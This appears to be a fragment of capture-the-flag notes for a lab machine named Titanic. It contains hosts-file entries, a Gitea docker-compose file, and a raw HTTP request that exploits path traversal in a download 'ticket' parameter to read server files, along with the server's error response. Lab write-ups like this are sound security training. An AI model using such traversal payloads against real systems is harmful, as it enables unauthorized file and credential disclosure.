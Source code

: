 ```bash

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

# vhost
dev.titanic.htb # adding to /etc/hosts

# gitea docker compose
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always

# search volume path in file disclosure
GET /download?ticket=../../../../../../home/developer/gitea/data HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/book
Origin: http://titanic.htb
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

# ans
HTTP/1.1 500 INTERNAL SERVER ERROR
Date: Mon, 30 Jun 2025 04:30:45 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Type: text/html; charset=utf-8
Content-Length: 265
Connection: close

<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>

# creating a docker container
mkdir gitea
cd gitea
nvim docker-compose.yml

# paste
```